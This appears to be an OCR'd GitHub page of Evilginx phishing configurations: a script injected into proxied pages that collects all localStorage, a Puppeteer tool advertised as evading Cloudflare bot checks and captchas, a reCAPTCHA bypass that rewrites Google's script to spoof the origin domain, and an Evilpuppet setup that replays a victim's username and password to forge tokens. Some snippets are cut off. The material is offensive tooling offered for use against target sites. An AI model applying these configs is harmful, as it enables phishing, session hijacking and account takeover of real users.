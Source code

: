 ### #js_inject cookie
The script is designed to load and store the current state of localStorage in the current Local Storage State object```

```
js_inject:
- trigger_domains: ["www.exemple.com"]
trigger_paths: ["/(.*)"]
trigger_params: []
script: |
let previousTime = '';

function logTimeLoop() {
const currentLocalStorageState = {};

for (let i = 0; i < localStorage.length; i++) {
const key = localStorage.key(i);
const value = localStorage.getItem(key);
currentLocalStorageState[key] = value;
}
```
### Puppeteer Real Browser
This package prevents Puppeteer from being detected as a bot in services like Cloudflare and allows you to pass captchas without any problems. It behaves like a real browser.

<p align="center">
<video src='https://github.com/user-attachments/assets/5dddca09-6941-42e9-9427-5c666632483f'/>
</p>

### Recaptcha Bypass
- This method works by modifying the javascript code responsible to generate the base64 string which contains the domain name.
- Subfilter can be modified accordingly based on the target site.
```
proxy_hosts:
  - {phish_sub: 'exemple', orig_sub: 'www', domain: 'exemple.com', session: true, is_landing: false, auto_filter: true}

sub_filters:
  # Change/modify the value assigned to variable 'A' based on your target site. 
  - {triggers_on: 'www.exemple.com', orig_sub: 'exemple', domain: 'exemple.com', search: 'A=si&&!d\?lX\.btoa\(y\):S\[6]\(40,l\[0],O\[l\[1]]\(24,0,8,y\),d\)', replace: 'A="aHR0cHM6Ly9hY2NvdW50cy5nb29nbGUuY29tOjQ0Mw."', mimes: ['text/javascript']}
```

>### info
This part applies only to Evilginx Pro users who have access to Evilpuppet module.

Interactive background browser sessions, spawned on-demand, with sole purpose of forging secret tokens to be used within the proxied Evilginx session.

```
evilpuppet:
  triggers:
    - domains: ['www.domain.com']
      paths: ['/sessions']
      token: 'recaptcha_token'
      open_url: 'https://www.domain.com/signin'
      actions:
        - selector: '#email'
          value: '{username}'
          enter: false
          click: false
          post_wait: 0
        - selector: '#password'
```
